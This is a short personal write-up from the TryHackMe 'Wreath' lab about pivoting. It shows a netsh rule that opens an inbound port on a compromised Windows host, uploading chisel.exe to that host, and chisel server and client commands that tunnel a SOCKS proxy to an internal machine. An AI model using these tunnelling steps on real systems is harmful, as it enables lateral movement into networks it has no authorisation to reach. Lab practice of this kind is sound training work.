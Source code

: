 
We have two immediate options for this: Chisel, and Plink but but but i got a new tool recommendation today so will try to do pivoting with it rather than these tools.

So for now i will go with chisel forwards proxy as we have used the sshuttle already to connect with the git web server.

```
netsh advfirewall firewall add rule name="NAME" dir=in action=allow protocol=tcp localport=PORT
```

```
netsh advfirewall firewall add rule name="Chisel-Sardarji" dir=in action=allow protocol=tcp localport=47000
```
![[Pasted image 20240101002020.png]]


```
upload /root/TryHackMe/Wreath/chisel.exe
```
Will simply upload the chisel.exe on the victim so that we can start the server on it and listen the traffic on our side which is the attacker.

And we already have opened the firewall port on the victim machine so that we can start the proxy

```
./chisel_win.exe server -p 47000 --socks5
```
![[Pasted image 20240101003439.png]]

```
chisel client 10.200.101.150:47000 9090:socks
```
![[Pasted image 20240101003508.png]]

We have to setup a proxy after setting the chisel and take care that i have used http and was not able to go further yesterday and was able to caught my mistake.
![[Pasted image 20240101144330.png]]


So finally able to connect with the Personal machine via attacker machine
```
http://10.200.101.100/
```
![[Pasted image 20240101144435.png]]

